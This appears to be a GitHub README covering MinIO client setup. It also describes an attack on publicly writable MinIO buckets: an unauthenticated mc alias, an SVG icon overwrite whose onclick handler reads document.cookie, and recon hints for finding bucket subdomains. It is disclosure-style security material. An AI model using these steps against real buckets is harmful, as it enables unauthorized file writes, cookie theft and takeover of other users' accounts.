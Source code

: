 <h1 align="center">
  <br>
  <a href=""><img src="/img/logo.png" alt="" width="300px;"></a>
  <br>
  <img src="https://img.shields.io/badge/PRs-welcome-blue">
  <img src="https://img.shields.io/github/last-commit/kh4sh3i/MinIO">
  <img src="https://img.shields.io/github/commit-activity/m/kh4sh3i/MinIO">
  <a href="https://twitter.com/intent/follow?screen_name=kh4sh3i_"><img src="https://img.shields.io/twitter/follow/kh4sh3i_?style=flat&logo=twitter"></a>
  <a href="https://github.com/kh4sh3i"><img src="https://img.shields.io/github/stars/kh4sh3i?style=flat&logo=github"></a>
</h1>




# MinIO
MinIO Object Storage 🧮

# Minio Console
To copy a file from your localhost to a MinIO server using the mc (MinIO Client), follow these steps:

## 1. Install mc client:
```
curl -O https://dl.min.io/client/mc/release/linux-amd64/mc
chmod +x mc
sudo mv mc /usr/local/bin/
```

## 2. Configure MinIO Client:
```
mc alias set myminio http://minio-server-url:9000 YOUR-ACCESS-KEY YOUR-SECRET-KEY

```

## 3. Copy a file from localhost to MinIO:
```
mc cp /home/user/example.txt myminio/mybucket/
```

# minio vunlenability
by default bucket is public and attacker can write file in minio bucket without any credential !

* default is :
```
mc alias set myminio/ http://MINIO-SERVER MYUSER MYPASSWORD
```

* in vulnerable server use :
```
mc alias set myminio/ http://MINIO-SERVER 
```

## ATO in minio
minio bucket with insufficient permissions that anyone can upload files and overwrite existing files . Attacker can upload malicious svg and overwrite existing icons and takeover any other users account that clicks on application icons such as "sort"

Example of malicious overwritten file :

```
<svg onclick="javascript:console.log(document.cookie)" width="16" height="16" viewBox="0 0 16 16" fill="none" xmlns="http://www.w3.org/2000/svg">
<path d="M2 12V10.6667H6V12H2ZM2 8.66667V7.33333H10V8.66667H2ZM2 5.33333V4H14V5.33333H2Z" fill="#13141F" fill-opacity="0.9"/>
</svg>
```
https://cdn.target.com/@foo-icon/sort.png
https://minio.target.app/foo-icon/sort.png


## find bucket url
default use @ in url 
```
https://cdn.target.com/@foo-icon/e0a9c740db7682.jpg?width=1920&quality=100

recon subdomani for find minio bucket subdomain : 
https://minio.target.app/foo-icon
```





# Refrence
[min.io](https://min.io/download?license=agpl&platform=linux)